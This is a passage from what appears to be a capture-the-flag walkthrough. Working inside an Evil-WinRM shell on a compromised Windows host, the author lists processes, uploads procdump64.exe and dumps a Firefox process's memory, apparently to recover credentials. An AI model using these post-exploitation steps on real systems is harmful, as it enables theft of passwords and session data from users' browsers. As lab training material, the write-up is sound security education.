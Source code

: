 Looks like he is constantly checking the issues list. Maybe the is a process that is running to check the issues list:

```
*Evil-WinRM* PS C:\Users\Chase\Desktop> get-process

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    456      18     2240       5408               532   0 csrss
    290      13     2332       5244               644   1 csrss
    357      15     3532      14712              2360   1 ctfmon
    252      14     3928      13416              3928   0 dllhost
    166       9     1856       9740       0.02   6980   1 dllhost
    618      32    30328      58232               860   1 dwm
   1497      58    23808      79048              4776   1 explorer
    378      28    21796      58504       0.36   4376   1 firefox
   1087      70   141600     219576       6.31   6716   1 firefox
    347      19    10072      35520       0.38   6860   1 firefox
    356      25    16452      39128       0.13   6960   1 firefox
    401      34    31592      91108       1.00   7076   1 firefox
     49       6     1508       3880               936   0 fontdrvhost
     49       6     1792       4668               944   1 fontdrvhost
      0       0       56          8                 0   0 Idle
...more

```

Not to much stands out. But the firefox procesess do, could the issues list refer to the /issues.php webpage? lets use a tool called procdump to 

```
*Evil-WinRM* PS C:\Users\Chase\Desktop> upload procdump64.exe C:\Users\chase\desktop\procdump64.exe
Info: Uploading procdump64.exe to C:\Users\chase\desktop\procdump64.exe

                                                             
Data: 535060 bytes of 535060 bytes copied

Info: Upload successful!
```

Let dump the firefox process memory

```
*Evil-WinRM* PS C:\Users\Chase\Desktop> .\procdump64.exe -ma 6716 firefox.dmp

ProcDump v10.11 - Sysinternals process dump utility
Copyright (C) 2009-2021 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[08:54:49] Dump 1 initiated: C:\Users\Chase\Desktop\firefox.dmp
[08:54:49] Dump 1 writing: Estimated dump file size is 503 MB.
[08:54:50] Dump 1 complete: 503 MB written in 1.4 seconds
[08:54:50] Dump count reached.

```
